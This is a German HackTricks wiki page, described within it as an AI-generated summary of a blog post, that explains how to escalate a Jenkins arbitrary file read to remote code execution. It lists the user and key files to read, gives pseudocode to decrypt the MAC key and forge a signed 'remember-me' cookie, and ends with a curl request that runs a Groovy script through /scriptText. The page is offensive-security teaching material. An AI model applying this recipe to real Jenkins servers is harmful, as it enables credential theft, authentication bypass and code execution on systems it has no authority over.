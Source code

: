 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Schwachstelle in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies missbraucht wird, um RCE zu erhalten, indem ein lokales Datei-Lesen ausgenutzt wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

* **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standard-Einstellung).
* **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
* **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

* Greife auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
* **Benutzername**
* **Benutzer-Seed**
* **Zeitstempel**
* **Passwort-Hash**

**Geheimschlüssel-Extraktion**

* Extrahiere kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
* **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
* **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
* **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

*   **Berechne die Token-Ablaufzeit:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Fügt eine Stunde zur aktuellen Zeit hinzu
```
{% endcode %}
*   **Verknüpfe Daten für das Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC-Schlüsselentschlüsselung**

*   **Entschlüssele die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertiere den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüssele die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

*   **Berechne HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Berechne HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac)  // Konvertiere das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

*   **Generiere das endgültige Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 kodiere die Cookie-Daten
```
{% endcode %}

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

* **Abrufen von CSRF- und Sitzungstoken:**
* Mache eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
* Erfasse `JSESSIONID` aus der Antwort, die zusammen mit dem Remember-Me-Cookie verwendet wird.

**Befehlsausführungsanfrage**

*   **Sende eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Das bereitgestellte Beispiel für den curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
